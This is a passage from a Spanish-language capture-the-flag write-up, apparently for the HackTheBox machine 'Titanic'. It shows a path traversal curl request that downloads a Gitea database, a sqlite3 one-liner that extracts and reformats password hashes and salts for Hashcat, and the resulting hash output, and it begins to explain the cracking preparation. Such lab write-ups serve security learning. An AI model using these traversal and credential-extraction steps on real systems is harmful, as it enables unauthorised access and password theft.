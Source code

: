 Por lo que vamos a descargarnoslo:

```shell
curl "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db
```

## sqlite3

Ahora vamos a utilizar la herramienta `sqlite3`:

```shell
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee hash.txt
```

Info:

```
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Veremos que obtenemos los nombres de usuarios con sus `hashes` por lo que tendremos que `crackear` del del usuario `developer` que es el que nos interesa.

#### **Proceso para preparar hashes de contraseñas con salts para usar con Hashcat**

Cuando se tiene acceso a una base de datos (como `gitea.db`), podemos extraer los hashes de contraseñas y sus respectivos **salts** de los usuarios para crackear las contraseñas con herramientas como **Hashcat**. Para hacerlo correctamente, es necesario transformar los datos a un formato adecuado. Aquí te explico cómo hacerlo paso a paso.

***

#### **1. Obtener los datos desde la base de datos**

Usamos **SQLite** para extraer las columnas necesarias (`passwd`, `salt`, y `name`) de la tabla `user` en la base de datos.

Comando:

```
sqlite3 gitea.db "select passwd,salt,name from user"
```

Este comando devuelve tres columnas:

* **passwd**: El hash de la contraseña en formato hexadecimal.
* **salt**: El salt utilizado en el proceso de hashing, también en formato hexadecimal.
* **name**: El nombre del usuario.

***
